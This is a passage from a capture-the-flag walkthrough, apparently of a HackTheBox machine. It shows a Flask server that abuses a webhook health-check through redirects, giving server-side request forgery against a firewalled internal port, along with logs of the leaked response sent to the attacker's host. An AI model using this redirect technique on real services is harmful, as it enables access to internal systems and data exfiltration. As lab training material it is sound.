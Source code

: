 I'd like to see what's on that port 3000 that's filtered when I run
`nmap`. The filtering implies that the port is open, just blocked by a
firewall. But I can't give the site a URL that has it's own IP in it.

I'll see if the client making these web requests follows redirects. I'll
write a short Flask web server:



    from flask import Flask, redirect, request

    app = Flask(__name__)


    @app.route("/redirect", methods=["GET"])
    def redir():
        return redirect('http://10.10.14.6/test')


    @app.route("/test", methods=["GET"])
    def test():
        return ("Hello!", 200)


    @app.route("/hook", methods=["POST"])
    def hook():
        print("Got Hook!")
        print(request.json)
        return ('', 200)


    if __name__ == "__main__":
        app.run(debug=True, host="0.0.0.0", port=80)



This code defines three end points. A GET request to `/redirect` will
return a redirect to `http://10.10.14.6/test`. a GET to `/test` will
return "Hello!". If that works, there will be a POST to `/hook`, which
will print success and the body.

When I run this, I get:



    10.10.11.176 - - [06/Jan/2023 21:15:11] "GET /redirect HTTP/1.0" 302 -
    10.10.11.176 - - [06/Jan/2023 21:15:11] "GET /test HTTP/1.0" 200 -
    Got Hook!
    {'webhookUrl': 'http://10.10.14.6/hook', 'monitoredUrl': 'http://10.10.14.6/redirect', 'health': 'up', 'body': 'Hello!', 'message': 'HTTP/1.0 302 FOUND', 'headers': {'Content-Type': 'text.md; charset=utf-8', 'Content-Length': '6', 'Location': 'http://10.10.14.6/test', 'Server': 'Werkzeug/2.0.2 Python/3.8.10', 'Date': 'Fri, 06 Jan 2023 21:15:11 GMT'}}
    10.10.11.176 - - [06/Jan/2023 21:15:11] "POST /hook HTTP/1.1" 200 -



It worked! It read my different page and returned by body after a
redirect.

#### Redirect to Health

I still haven't proven that this won't get blocked if I try to reach
`health.htb`. I'll update the server to redirect to `http://127.0.0.1/`,
and submit expecting to get `http://health.htb`:

